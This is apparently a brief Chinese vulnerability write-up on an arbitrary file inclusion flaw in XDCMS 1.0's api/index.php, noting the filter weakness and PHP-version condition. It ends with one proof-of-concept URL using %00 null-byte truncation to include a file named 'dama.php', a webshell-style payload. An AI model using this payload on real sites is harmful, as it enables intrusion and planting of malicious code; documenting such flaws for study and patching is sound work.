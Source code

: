 XDCMS 1.0 任意文件包含漏洞
==========================

一、漏洞简介
------------

要求PHP版本小于5.3，否则无法使用%00截断

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件：`api\index.php`

![](./resource/XDCMS1.0任意文件包含漏洞/media/rId24.jpg)

![](./resource/XDCMS1.0任意文件包含漏洞/media/rId25.jpg)

安全过滤函数 发生鸡肋

很明显 %00截断

    http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php  
